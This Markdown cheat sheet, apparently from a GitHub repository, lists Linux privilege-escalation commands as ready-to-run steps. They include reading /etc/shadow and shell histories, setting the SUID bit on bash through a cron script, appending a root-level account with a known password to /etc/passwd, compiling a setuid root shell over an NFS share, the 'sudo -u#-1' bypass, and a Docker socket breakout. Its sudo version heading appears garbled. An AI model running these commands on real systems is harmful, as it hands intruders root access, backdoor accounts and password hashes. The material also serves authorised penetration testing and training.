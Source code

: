 ## Linux Privilege Escalation
### Enumeration
-> Get system distribution and version
```
cat /etc/*-release
```

-> Get kernel version
```
cat /proc/version   
uname -a
```

-> View variable environments 
```
env
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
cat ~/.zshrc
```

-> View user command history
```
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

-> Services
```
ps -aux
cat /etc/service
```

-> View network interfaces and connections
```
ifconfig
ip addr
```

-> Get DNS resolver and hosts mapped to an IP
```
cat /etc/resolv.conf
cat /etc/hosts
```

-> Get system user, group and password information
```
cat /etc/passwd
cat /etc/shadow
```
--- 

### Crontab [PrivEsc]
-> Enumeration  
```
cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab
```

-> Exploitation  
```
echo "chmod +s /bin/bash" >> script.sh
```

### SUID [PrivEsc]
-> Enumeration 
```
find / -perm -u=s -type f 2>/dev/null
```
-> Exploitation  
https://gtfobins.github.io/

### Capabilities [PrivEsc]
-> Enumeration  
```
getcap -r / 2>/dev/null
```
-> Exploitation  
https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]
```
sudo -l
```
or  
```
cat /etc/sudoers
```
-> Exploitation  
https://gtfobins.github.io/

### Weak File Permissions / Passwd Writabble [PrivEsc]
-> Enumeration  
```
ls -la /etc/passwd
ls -la /etc/shadow

```
-> Exploitation  
```
echo "okays:$(openssl passwd okay2):0:0:root:/root:/usr/bin/bash" >> /etc/passwd
```

### NFS Root Squashing
-> Detection - VM Owned
``` 
cat /etc/exports
```

-> Viewing nfs directories with access - Attacker VM
```
showmount -e <ip>
```

-> Get nfs version - Attacker VM
```
rpcinfo <ip>
```

-> Mount - Attacker VM
```
mkdir /tmp/1
mount -o rw,vers=2 <ip>:/<nfs_directory> /tmp/1
```

-> Creating and compiling file for privesc - Attacker VM
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x
```

-> Exploitation - VM Owned
```
/tmp/x
 id
```

### sudo < v1.28 - @sickrov [PrivEsc]
```
sudo -u#-1 /bin/bash
```

### Docker Breakout [PrivEsc]
-> Search the socket
```
find / -name docker.sock 2>/dev/null
```
-> list images  
```
docker images
```
-> Exploitation
```
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash
```

### Linux Enumeration Tools [PrivEsc]

-> Linpeas
```
./linpeas.sh
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> linux-exploit-suggester
```
./linux-exploit-suggester.sh
```
or  
```
./linux-exploit-suiggester.sh --uname <uname-string>
```
https://github.com/The-Z-Labs/linux-exploit-suggester

-> Unix Privesc Check
```
./unix-privesc-check
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
